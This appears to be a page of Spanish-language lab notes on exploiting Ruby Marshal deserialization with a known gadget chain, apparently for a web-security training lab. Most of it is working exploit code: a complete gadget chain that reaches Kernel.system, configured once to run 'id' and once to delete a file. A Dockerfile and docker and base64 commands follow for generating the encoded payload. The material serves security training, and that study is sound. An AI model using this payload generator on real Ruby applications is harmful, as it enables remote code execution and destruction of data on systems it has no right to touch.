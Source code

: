 ```yaml
---
layout: default
title: 7 - Exploiting Ruby deserialization using a documented gadget chain
---
```

[PayloadsAllTheThings/Insecure Deserialization at master · swisskyrepo/PayloadsAllTheThings · GitHub](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Insecure%20Deserialization)

[PayloadsAllTheThings/Insecure Deserialization/Ruby.md at master · swisskyrepo/PayloadsAllTheThings · GitHub](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20Deserialization/Ruby.md)

```ruby
# Autoload the required classes
Gem::SpecFetcher
Gem::Installer

# prevent the payload from running when we Marshal.dump it
module Gem
  class Requirement
    def marshal_dump
      [@requirements]
    end
  end
end

wa1 = Net::WriteAdapter.new(Kernel, :system)

rs = Gem::RequestSet.allocate
rs.instance_variable_set('@sets', wa1)
rs.instance_variable_set('@git_set', "id")

wa2 = Net::WriteAdapter.new(rs, :resolve)

i = Gem::Package::TarReader::Entry.allocate
i.instance_variable_set('@read', 0)
i.instance_variable_set('@header', "aaa")


n = Net::BufferedIO.allocate
n.instance_variable_set('@io', i)
n.instance_variable_set('@debug_output', wa2)

t = Gem::Package::TarReader.allocate
t.instance_variable_set('@io', n)

r = Gem::Requirement.allocate
r.instance_variable_set('@requirements', t)

payload = Marshal.dump([Gem::SpecFetcher, Gem::Installer, r])
puts payload.inspect
puts Marshal.load(payload)
```


```ruby
# Autoload the required classes
Gem::SpecFetcher
Gem::Installer

# prevent the payload from running when we Marshal.dump it
module Gem
  class Requirement
    def marshal_dump
      [@requirements]
    end
  end
end

wa1 = Net::WriteAdapter.new(Kernel, :system)

rs = Gem::RequestSet.allocate
rs.instance_variable_set('@sets', wa1)
rs.instance_variable_set('@git_set', "rm /home/carlos/morale.txt") #Comando a ejecutar

wa2 = Net::WriteAdapter.new(rs, :resolve)

i = Gem::Package::TarReader::Entry.allocate
i.instance_variable_set('@read', 0)
i.instance_variable_set('@header', "aaa")


n = Net::BufferedIO.allocate
n.instance_variable_set('@io', i)
n.instance_variable_set('@debug_output', wa2)

t = Gem::Package::TarReader.allocate
t.instance_variable_set('@io', n)

r = Gem::Requirement.allocate
r.instance_variable_set('@requirements', t)

payload = Marshal.dump([Gem::SpecFetcher, Gem::Installer, r])
puts payload #Así sale en formato correcto
```

Para poder ejecutar el script de arriba :

```Dockerfile
# Usa una imagen base de Ruby 2.7
FROM ruby:2.7

# Establece el directorio de trabajo dentro del contenedor
WORKDIR /app

# Copia tu archivo ruby (por ejemplo ruby_deser.rb) al contenedor
COPY ruby_deser.rb /app/ruby_deser.rb

# Instala cualquier dependencia necesaria
RUN apt-get update && apt-get install -y \
  build-essential \
  libssl-dev \
  libreadline-dev \
  zlib1g-dev

# Instala las gemas que necesites, si las tienes en un Gemfile
# Si no tienes un Gemfile, puedes instalar las gemas directamente con gem install
RUN gem install base64

# Comando por defecto para ejecutar el script
CMD ["ruby", "ruby_deser.rb"]
```

```bash
nano ruby_deser.rb

...

docker build -t ruby-exploit .

docker run --rm ruby-exploit | base64 -w 0 ; echo
```

Si cambiamos el contenido del script se repiten los pasos

